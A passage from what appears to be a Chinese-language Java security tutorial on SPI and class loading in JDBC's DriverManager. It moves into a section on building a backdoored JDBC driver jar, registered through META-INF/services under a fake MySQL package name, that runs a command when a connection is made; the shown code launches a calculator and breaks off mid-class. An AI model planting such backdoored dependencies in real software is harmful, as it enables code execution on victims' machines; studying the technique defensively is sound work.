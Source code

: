 * `Thread.currentThread().getContextClassLoader();`获取类加载器

* 扩展的实现类通过`c = Class.forName(cn, false, loader);`获取

> `Class.forName()`默认使用调用者的ClassLoader，我们是在`DriverManager`类里调用ServiceLoader的，所以调用类也就是`DriverManager`，它的加载器是`Bootstrap ClassLoader`。我们知道`Bootstrap ClassLoader`加载rt.jar包下的所有类，要用`Bootstrap ClassLoader`去加载用户自定义的类是违背双亲委派的，所以使用`Thread.currentThread().getContextClassLoader`去指定`AppClassLoader`（`ServiceLoader.load`传入的）

查看ClassPath下有那些JDBC Driver

```java
import java.sql.Driver;
import java.util.Iterator;
import java.util.ServiceLoader;

public class JdbcDriverList {
    public static void main(String[] args) {
        ServiceLoader<Driver> serviceLoader = ServiceLoader.load(Driver.class, ClassLoader.getSystemClassLoader());

        for (Iterator<Driver> iterator = serviceLoader.iterator(); iterator.hasNext();) {
            Driver driver = iterator.next();
            System.out.println(driver.getClass().getPackage() + " ------> " + driver.getClass().getName());
        }
    }
}
```

![image-20230123015151674](../.gitbook/assets/image-20230123015151674.png)

# 0x04 JDBC Driver后门

现在我们尝试自己编写一个后门驱动jar包，让用户引入后门jar包，在建立JDBC连接时，触发执行命令

```
jar cvf ShellDriver.jar ShellDriver.class
```

jar中的META-INF下需要有services文件夹

services文件夹下为java.sql.Driver，内容为`com.mysql.fake.jdbc.ShellDriver`

这是为了让SPI找到我们要加载的类ShellDriver

```java
package com.mysql.fake.jdbc;

import java.sql.*;
import java.util.Properties;
import java.util.logging.Logger;

public class ShellDriver implements java.sql.Driver {
    protected static final String WindowsCmd = "calc";

    protected static final String LinuxCmd = "open -a calculator";

    protected static  String shell;

    protected static  String args;

```